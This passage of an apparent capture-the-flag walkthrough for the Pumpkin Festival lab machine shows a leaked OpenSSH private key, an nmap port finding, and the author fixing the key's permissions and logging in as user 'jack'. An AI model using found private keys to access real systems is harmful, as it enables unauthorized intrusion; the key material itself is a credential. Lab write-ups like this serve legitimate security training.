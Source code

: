 ````
9Zo/TQFfRoDYxFFfdOvM79CZK/eq6VuVuy0lQLDYVbX0eZAY/YUXTlYLbR3x7gTRnwRBw0
I4nWa3fqbLnGjdEs0i421zNgIAAEBHseV+dOHdqnZhsisZqniNTL19A70wrdYTLBmXR0+z
WRFgc71rvvCg50al7/Oa1hvKUQFCE6gpLcr7S/qevwVX9IF7PkV5+AlTlnzpZK900Jat2S
iZIGRu7+0OPDZuSA5dKN5/fmZoCmukZ8KWGcao1mr5QjVb7SROUA5sbvZQTUwJoCvxj7IO
wGEcEHBBVdC/ArenxYxqh1ASdCtVxZ/BVtw/0yBTsEoDiH/nH7SnvcUb9xiq1X2mu4mV6f
yQz9MSwPhMCyYroIzL0rn9dqmnpr6KWCxnXP5KJG8eNS7BpbBlcqEpIoT93XXcTHyUsgJo
vH6TtZh87L6IZi8T8PraZaj1rxcNa3RlC+v2i8kynjQrlGTttW9Q2qNw98hekcSrXKijX1
2laYnc9fCJKy7ZEc+BAAABAQCo5Oz5Q0HbcBkziqK70wrlm4WnYxU08I0Iu0sXBcEpF2DA
KEE1RF5Tch3anrWnR9M/BAVvCCRpqezJ6BYOBikFVwEUDlxSPNpNkJRl+qTC/P0Fr/KuRt
f+xWkcXePjYF7Yxrs73nUyWU3Dr9tcDuQYxDptlTIbAmvkIe4zB+Fvfu1LQLhAaHRopThs
lyZOa9zQUoTqbu/dks+HNq0fibh6oxkGxcinxcejD8j0xyqhud2AlS+3TQq9pdIIx/ZwLI
fNqzGS8y4JojKGnys55sdTk3SBhN86ufMzV3ul3Tj9qqymtQHC9m0RofYWQhoilIqzaRYP
kWOuRHebKoCyAAW2AAABAQD1xXH584HshiYfQJxBXKZhSGGrfW82/U8K5Y+T/SZOV3Gx/t
wjXXYLoCWjYyu7HJhHmed0AmsMrvBwyHM4pHW2r4IvfKqxix3Lr3416isu+/PWsFc+QkIk
kjek6POIYJytnzZgrzUAQF+kfh9PxkJnchIm+3YSwZYE8nAZxTSXGgMWSWqFwN9oO/P38L
ullceYhyn5ZV/NvSVi+MlKw3+ChpPZMYvqngdYPkS3Ovx5UOZzPjtRkylWBHZB50gDgfd1
kxB7Rmpjvj8I3HMcXt2fygc6Qr35aMCcAzXNIyF1FIMsWmxDjuU6qv+fkGyx8YkkcbB75b
HnDB6C+kBAl2rzAAABAQDIhTl2TwnR96BJO5KT926OTOm5w6qx4GuMF2B9PStQNdOBG0FG
n2A9z1EmCNHI63N7gGul4MHxYm69YdnQtah/CeOh/eOQ1vgaGNUU1052+480+KHQy2z7kK
MgE/qM4U7i5nfegFem1xE42i4EytRY2ag+gga4wZfe/98woeB8OlKv+pBmNgHAB1orTPLb
Kh7izLlZM6kQ0ASSfDf0RbZpRIIU1ngRXRn94iZvn/8fwV2iCJ5WxqALtZSEJnaVcEqlkG
1j6XrfkeUUrYWlOorxbiyxMGeC19VvePPpXvGKD8tSZ1NTnH3RkkQGKZjohQsd67IS4fup
16k4l9SUtcrJAAAACXJvb3RAa2FsaQE=
-----END OPENSSH PRIVATE KEY-----
````

An SSH private key. The file name suggests that it's user is "jack".

## SSH

nmap had provided me with the appropriate port for SSH in the meantime:

`6880/tcp open   ssh                OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)`

So I'll try a connection with the key and User Jack:

![Image](https://github.com/shendayan/CTF-ressources/blob/master/PumpkinFestival-Screenshot-11.png)

Okay, a "private key" that everyone can read is really not that private.
I didn't know that because of this you couldn't connect to it via SSH. Learned something again.

`chmod 600 jack.txt` should solve the problem.

Bingo!

````
ssh -l jack -i jack.txt -p 6880 192.168.178.61
------------------------------------------------------------------------------
                          Welcome to Mission-Pumpkin
      All remote connections to this machine are monitored and recorded
------------------------------------------------------------------------------

Last login: Tue Jun 18 21:04:28 2019 from 192.168.1.105
-bash: /home/jack/.bash_profile: Permission denied
jack@pumpkin:~$ ls -la
total 48
drwx------ 5 jack jack  4096 Sep 18 22:19 .
drwxr-xr-x 5 root root  4096 Jul 12  2019 ..
-rw------- 1 root root     0 Sep 18 22:19 .bash_history
-rw-r--r-- 1 jack jack   231 Jul 15  2019 .bash_logout
-rw------- 1 root root    94 Jul 16  2019 .bash_profile
-rw-r--r-- 1 jack jack  3675 Jul 15  2019 .bashrc
drwx------ 2 jack jack  4096 Jul 12  2019 .cache
-rw-r--r-- 1 jack jack   675 Jul 12  2019 .profile
drwxrwxr-x 2 jack jack  4096 Jul 12  2019 .ssh
````